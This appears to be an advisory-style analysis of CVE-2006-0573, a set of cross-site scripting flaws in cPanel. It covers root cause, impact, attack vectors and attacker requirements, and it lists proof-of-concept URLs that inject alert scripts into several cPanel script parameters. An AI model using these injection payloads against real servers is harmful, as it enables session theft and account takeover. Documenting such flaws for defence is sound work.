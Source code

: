 Based on the provided content, here's an analysis of CVE-2006-0573:

**Root Cause of Vulnerability:**
- The vulnerability stems from a failure of the cPanel application to properly sanitize user-supplied input.

**Weaknesses/Vulnerabilities Present:**
- Multiple Cross-Site Scripting (XSS) vulnerabilities are present in various cPanel scripts.

**Impact of Exploitation:**
- An attacker can execute arbitrary script code within the browser of an authenticated cPanel user.
- This can lead to the theft of cookie-based authentication, granting the attacker full access to the victim's cPanel account.
- Other types of attacks are also possible due to the ability to execute arbitrary code.

**Attack Vectors:**
- The attack vector is through crafted URLs that inject malicious JavaScript code into vulnerable parameters of cPanel scripts.
- The attacker needs to entice a logged-in cPanel user to visit these crafted URLs.

**Required Attacker Capabilities/Position:**
- The attacker needs to be able to craft malicious URLs and distribute or trick the victim into accessing these links while logged in to cPanel.

**Vulnerable Scripts (with proof of concept examples):**
- `/frontend/xcontroller/editquota.html`
  - Example: `http://www.vulnerable-site.com:2082/frontend/xcontroller/editquota.html?email=<script>alert('vul')</script>&domain=`
- `/frontend/xcontroller/dodelpop.html`
  - Example: `http://www.vulnerable-site.com:2082/frontend/xcontroller/dodelpop.html?email=<script>alert('vul')</script>&domain=xxx`
- `/frontend/xcontroller/diskusage.html`
  - Example: `http://www.vulnerable-site.com:2082/frontend/xcontroller/diskusage.html?showtree=0"><script>alert('vul')</script>`
- `/frontend/xcontroller/stats/detailbw.html`
  - Multiple examples with different vulnerable parameters:
    - `http://www.vulnerable-site.com:2082/frontend/xcontroller/stats/detailbw.html?mon=Jan&year=2006&domain=xxx&target=>"><script>alert('vul')</script>`
    - `http://www.vulnerable-site.com:2082/frontend/xcontroller/stats/detailbw.html?mon=Jan&year=2006&domain=xxx>"><script>alert('vul')</script>&target=xxx`
    - `http://www.vulnerable-site.com:2082/frontend/xcontroller/stats/detailbw.html?mon=Jan&year=2006>"><script>alert('vul')</script>&domain=xxx&target=xxx`
    - `http://www.vulnerable-site.com:2082/frontend/xcontroller/stats/detailbw.html?mon=Jan>"><script>alert('vul')</script>&year=2006&domain=xxx&target=xxx`